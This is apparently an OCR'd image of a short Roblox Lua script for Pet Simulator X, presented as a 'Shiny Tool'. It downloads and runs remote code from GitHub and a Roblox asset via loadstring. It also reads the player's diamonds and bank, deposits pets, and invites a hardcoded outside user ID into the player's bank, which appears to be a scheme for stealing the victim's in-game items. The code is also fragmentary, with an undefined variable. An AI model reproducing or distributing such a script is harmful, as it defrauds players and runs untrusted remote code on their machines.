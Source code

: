 loadstring(game:GetObjects("rbxassetid://8194485654")[1].Source)("Petsi-X")
loadstring(game:HttpGet("https://raw.githubusercontent.com/XLinestX/Shiny-Tool/main/ShinyTool.lua"))()
local YourID = 104336994
local lib=
require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList);
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], YourID) then
    end
